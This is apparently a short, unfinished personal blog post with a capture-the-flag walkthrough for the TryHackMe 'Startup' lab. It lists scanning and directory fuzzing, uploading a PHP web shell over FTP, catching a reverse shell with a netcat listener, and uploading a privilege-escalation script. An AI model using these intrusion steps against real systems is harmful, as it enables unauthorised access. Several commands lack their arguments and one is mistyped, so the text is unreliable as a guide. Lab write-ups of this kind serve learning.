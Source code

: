```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....


ip add to hosts 

> sudo leafpad /etc/hosts


> sudo nmap -sC -sV 

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

> ftp startup.thm
> get 
> get 


phpshell.php

> put phpshell.php

 Check the ip addr
 
nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  



